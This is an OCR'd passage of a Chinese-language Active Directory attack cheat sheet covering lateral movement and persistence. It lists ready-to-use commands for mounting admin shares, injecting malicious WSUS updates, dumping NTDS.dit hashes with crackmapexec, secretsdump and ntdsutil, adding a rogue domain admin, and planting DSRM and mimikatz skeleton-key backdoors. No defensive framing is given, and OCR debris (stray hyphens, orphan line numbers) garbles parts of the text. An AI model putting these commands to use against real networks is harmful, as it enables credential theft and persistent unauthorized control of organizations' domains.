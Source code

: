 ## 11.IPC


net use \\\\ip\\ipc$ "password" /user:"administrator"-
net use \\\\ip\\c$ "password" /user:"administrator"-
-
-

## 12.其他横移

1-
2-
3-
4-
5-
6-
7-

1.向WSUS服务器数据库注入恶意程序更新 WSUSpendu.ps1 # 需要先拿下 WSUS 更新分发服务器-
-
2.MSSQL Trusted Links use exploit/windows/mssql/mssql\_linkcrawler-
-
3.GPO Delegation-
-
4.ADCS-



# 10.权限维持

## 拿到域控权限

dump ntds.dit 文件


```
crackmapexec smb 127.0.0.1 -u <user> -p <password> -d <domain> --ntds-
-
secretsdump.py '<domain>/<user>:<pass>'@<ip>-
-
ntdsutil "ac i ntds" "ifm" "create full c:\\temp" q q-
-
secretsdump.py -ntds ntds\_file.dit -system SYSTEM\_FILE -hashes lmhash:nthash LOCAL -outputfile ntlm-extract-
-
windows/gather/credentials/domain\_hashdump-
```


## 后门


net group "domain admins" myuser /add /domain-
-
Golden ticket（黄金票据）-
-
Silver Ticket（白银票据）-
-
DSRM 后门：-
PowerShell New-ItemProperty “HKLM:\\System\\CurrentControlSet\\Control\\Lsa\\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD-
-
Skeleton Key：-
mimikatz "privilege::debug" "misc::skeleton" "exit"-
-